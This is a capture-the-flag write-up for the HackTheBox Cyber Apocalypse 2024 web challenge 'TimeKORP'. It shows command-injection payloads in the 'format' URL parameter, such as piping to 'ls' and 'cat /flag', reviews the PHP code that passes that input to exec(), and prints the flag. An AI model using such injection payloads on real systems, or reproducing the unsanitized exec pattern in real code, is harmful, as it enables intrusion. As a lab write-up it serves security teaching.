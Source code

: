 ```yaml
---
name: TimeKORP (2024)
event: HackTheBox Cyber Apocalypse CTF 2024
category: Web
description: Writeup for TimeKORP (Web) - HackTheBox Cyber Apocalypse CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# TimeKORP

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-vhl8ixthO4/0.jpg)](https://www.youtube.com/watch?v=-vhl8ixthO4?t=99 "HackTheBox Cyber Apocalypse '24: Time KORP (web)")

## Description

> TBD

## Solution

First things first; download the source and run the local docker instance for easy/fast debugging.

It's also a good idea to check the site functionality before reviewing the source code so that things fall into place more easily.

The site displays the time (`http://127.0.0.1:1337/?format=%H:%M:%S`) or date (`http://127.0.0.1:1337/?format=%Y-%m-%d`).

Opting for the lazy route, I check the burp scanner and find some interesting results. The first is XSS (reflected), presumably not much use as there was no admin bot to submit a URL to. The second is command injection 👀

Here's the URL-decoded [PoC](http://127.0.0.1:1337/?format=%25H%3a%25M%3a%25S%7cecho%20kefbjki4ag%20d6tyxfigki%7c%7ca%20%23'%20%7cecho%20kefbjki4ag%20d6tyxfigki%7c%7ca%20%23%7c%22%20%7cecho%20kefbjki4ag%20d6tyxfigki%7c%7ca%20%23) from burp:

```
/?format=%H:%M:%S|echo kefbjki4ag d6tyxfigki||a #' |echo kefbjki4ag d6tyxfigki||a #|" |echo kefbjki4ag d6tyxfigki||a #
```

The result indicates that the `echo kefbjki4ag d6tyxfigki` command did indeed execute.

```html
</span> kefbjki4ag d6tyxfigki<span class='text-muted'>.</span>
```

The payload syntax/length is a little confusing so I keep removing elements and re-testing to ensure the command still executes. The attack can be simplified to:

```
/?format=%H:%M:%S' |ls #
```

If we [URL-encode it](http://127.0.0.1:1337/?format=%25H%3a%25M%3a%25S'+|ls+%23) it lists the `views` directory. If we look around for a while we might not see the flag. Let's just check the source code and see the Dockerfile has the following line.

```dockerfile
# Copy flag
COPY flag /flag
```

Therefore, we can print the flag with [this payload](http://127.0.0.1:1337/?format=%25H%3a%25M%3a%25S'+|cat+/flag+%23) to retrieve the flag.

```
/?format=%H:%M:%S' |cat /flag #
```

We've already solved the challenge but why not review the vulnerable source code. Notice `TimeController.php` processes our vulnerable GET parameter (`format`).

```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

It passes our user input (🚫) to the `TimeModel.php` constructor which then executes the command.

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

So, assuming we submit `format=%H:%M:%S' |cat /flag #`, the `command` property of the object will be:

```bash
date '%H:%M:%S'' |cat /flag # 2>&1
```

Due to us closing off the string and inserting a pipe character, we were able to inject a malicious command! Crucially, we also needed to add a hash character afterwards, to prevent the output from being redirected.

Flag: `HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}`
